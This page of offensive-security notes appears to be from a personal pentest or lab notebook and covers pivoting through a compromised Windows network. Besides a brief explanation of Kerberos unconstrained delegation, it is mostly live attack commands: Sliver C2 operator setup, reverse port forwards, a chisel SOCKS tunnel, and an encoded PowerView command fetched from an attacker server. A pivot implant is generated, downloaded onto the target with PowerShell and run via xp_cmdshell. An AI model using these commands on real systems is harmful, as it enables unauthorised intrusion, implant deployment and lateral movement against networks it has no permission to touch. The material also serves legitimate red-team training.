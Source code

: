 # Pivot

### <mark style="color:yellow;">Kerberos Delegations</mark>

In case of need to bypass network restrictions we can add a reverse portforward.

```sh
rportfwd add -b 8080 -r 127.0.0.1:8080
```

<details>

<summary>Double Hop problem</summary>

Double Hop problem. The double-hop problem in authentication occurs when a user accesses a front-end service (like IIS) that needs to authenticate to a back-end service (like MSSQL) on behalf of the user.\


Unconstrained delegation allows the front-end service (IIS) to act as the user for any service on the network. Here’s how it works:

1. **TGT Inclusion**: When the user authenticates to the IIS server, the KDC includes the user's TGT in the service ticket issued to the IIS server.
2. **TGT Caching**: The IIS server extracts and caches the user's TGT in memory.
3. **Impersonation**: With the cached TGT, the IIS server can request tickets to access other services (like MSSQL) on behalf of the user without needing the user's credentials again

</details>

Then run Powerview to enum for unconstrained delegations

```sh
sharpsh -- '-u http://172.16.1.11:8080/PowerView.ps1 -e -c R2V0LU5ldENvbXB1dGVyIC1VbmNvbnN0cmFpbmVkCg=='
```

### <mark style="color:yellow;">Setting up chisel</mark>

Have a valid sessions running on sliver. The use the id from there to connect the ./sliver-client. For sliver client to run create a new operator in sliver `new-operator -n mczen -l 10.10.14.120`.

```sh
cd ~/sliver
sudo apt install mingw-w64
git clone https://github.com/MrAle98/chisel
cd chisel/
mkdir ~/.sliver-client/extensions/chisel
cp extension.json ~/.sliver-client/extensions/chisel/
make windowsdll_64
make windowsdll_32
```

The start chisel server

<pre class="language-shell"><code class="lang-shell"># Set proxychains4.conf
sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains4.conf &#x26;&#x26; sed -i s/9050/1080/g /etc/proxychains4.conf'
<strong>
</strong><strong># Start server
</strong>chisel server --reverse -v --socks5
</code></pre>

In ./chisel-client

```sh
# First make new profile
new-operator -n zen -l 10.10.14.133

# Import profile
./sliver-client_linux import /home/kali/sliver/mczen_10.10.14.120.cfg

# Use ID
use [ID of web01 session]

# Start chisel client from sliver-client
chisel client 10.10.14.120:8080 R:socks
```

### <mark style="color:yellow;">Add reverse port forward</mark>

```sh
rportfwd add -b 8080 -r 127.0.0.1:8080
```

Then create a pivot listener

```sh
# Start tcp
pivots tcp

# Generate and run tcp.exe on target
generate --tcp-pivot 172.16.84.20:9898 --skip-symbols -N tcp

# HTTP server
python3 -m http.server 5000

# Connect
powershell iwr -uri http://172.16.84.20:5000/tcp.exe -Outfile C:\Temp\tcp.exe

# Run .exe 
xp_cmdshell C:\Temp\tcp.exe 
```

